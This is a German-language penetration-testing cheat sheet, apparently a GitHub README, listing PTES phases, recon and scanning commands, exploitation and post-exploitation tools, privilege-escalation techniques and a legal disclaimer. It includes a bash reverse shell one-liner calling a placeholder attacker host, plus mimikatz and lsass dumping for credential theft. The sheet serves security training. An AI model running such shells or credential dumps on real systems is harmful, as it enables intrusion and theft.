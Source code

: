 # 🛡️ Pentest Basics – Einstieg ins Penetration Testing

> Diese Übersicht vermittelt dir die wichtigsten Schritte, Tools und Begriffe für manuelle sowie automatisierte Pentests. Perfekt für Anfänger und zur Prüfungsvorbereitung.

---

## 🧭 Pentesting-Phasen (PTES)

1. **Reconnaissance** – Informationsgewinnung  
2. **Scanning & Enumeration** – Zielsysteme identifizieren  
3. **Exploitation** – Schwachstellen ausnutzen  
4. **Post-Exploitation** – Vertiefung und Ausweitung des Zugriffs  
5. **Reporting** – Ergebnisdokumentation

---

## 🔍 1. Reconnaissance (Passive Informationsbeschaffung)

| Tool / Befehl                   | Zweck                                  |
|---------------------------------|----------------------------------------|
| `whois domain.com`              | Whois-Informationen zur Domain         |
| `nslookup`, `dig`               | DNS-Abfragen                           |
| `theHarvester`                  | E-Mail- und Domaininfos sammeln        |
| `shodan.io`                     | IoT- und öffentlich erreichbare Geräte |
| `Google Dorking`                | Spezielle Google-Suchabfragen          |

---

## 📡 2. Scanning & Enumeration (Aktive Analyse)

### Netzwerkscan

| Tool / Befehl                   | Beschreibung                            |
|---------------------------------|------------------------------------------|
| `nmap -sS 192.168.1.1`          | TCP SYN-Scan                            |
| `nmap -sV -O target.com`        | Version + OS-Erkennung                  |
| `nmap --script vuln`            | Verwundbarkeits-Scan                    |

### Dienste enumerieren

| Tool                  | Zweck                              |
|-----------------------|------------------------------------|
| `enum4linux`          | SMB/NetBIOS-Enumeration            |
| `smbclient`           | Zugriff auf offene SMB-Shares      |
| `ldapsearch`          | LDAP-Abfrage                       |
| `nikto`               | Webserver-Scan (Verwundbarkeiten)  |
| `dirb` / `gobuster`   | Verzeichnisse und Dateien entdecken|

---

## 💥 3. Exploitation (Angriff)

| Tool / Technik        | Beschreibung                       |
|-----------------------|-------------------------------------|
| `msfconsole`          | Metasploit-Framework                |
| `searchsploit`        | Exploit-Datenbank (offline)         |
| `python -m http.server` | Dateiserver für Payloads         |
| `sqlmap`              | SQL-Injection automatisieren        |
| `xss`, `csrf`, `rce`  | Gängige Schwachstellen              |

---

## 🧪 4. Post-Exploitation

| Technik / Tool        | Beschreibung                         |
|-----------------------|----------------------------------------|
| `netstat -ano`        | Offene Verbindungen prüfen            |
| `mimikatz`            | Windows-Credentials extrahieren       |
| `lsass` Dumping       | Tokens auslesen                       |
| `linuxprivchecker.py`| Privilege Escalation auf Linux testen |
| `linPEAS`, `winPEAS`  | Automatisiertes PE-Tool               |

---

## 🔐 5. Rechteausweitung (Privilege Escalation)

| Linux                                | Windows                              |
|-------------------------------------|--------------------------------------|
| SUID/SGID Binary-Missbrauch         | Unquoted Service Paths               |
| Schwache Cronjobs                   | AlwaysInstallElevated               |
| `sudo -l`                           | DLL Hijacking                        |
| Kernel-Exploits (Exploit-DB)        | Token-Impersonation                  |

---

## 🛠️ Wichtige Tools (Essentials)

| Tool              | Zweck                                   |
|-------------------|------------------------------------------|
| `Burp Suite`      | Web Application Testing (Proxy, Scanner) |
| `Hydra`, `Medusa` | Brute Force auf Login-Portale            |
| `Netcat`          | Reverse/Bind Shells                      |
| `John`, `Hashcat` | Passwort-Cracking                        |
| `Wireshark`       | Netzwerkverkehr analysieren              |
| `ncat`            | Verschlüsselter Netcat-Ersatz            |

---

## 📚 Begriffe & Techniken

| Begriff         | Bedeutung                                     |
|-----------------|-----------------------------------------------|
| CVE             | Common Vulnerabilities and Exposures         |
| CVSS            | Common Vulnerability Scoring System          |
| PoC             | Proof of Concept (z. B. funktionierender Exploit) |
| Pivoting        | Nutzung eines kompromittierten Systems als Sprungbrett |
| Tunneling       | Verkehr über andere Protokolle/Ports schleusen |

---

## 💡 Beispiel: Reverse Shell (Linux Bash)

```bash
# Opfer (Opfer bekommt Shell):
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Angreifer:
nc -lvnp 4444
```

---

### 🗒️ Reporting Tipps

- Beschreibung der Schwachstelle
- Reproduktionsschritte
- Risiko (CVSS-Score, falls verfügbar)
- Screenshot / Beweis
- Empfehlung zur Behebung

---

## 🧠 Nützliche Links

- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/dashboard) 
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit-DB](https://www.exploit-db.com/)
- [Red Team Notes](https://book.hacktricks.wiki/en/index.html)

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

**Letzte Aktualisierung:** Juli 2025  
Pull Requests für neue Shortcuts, Plugins oder Verbesserungen willkommen!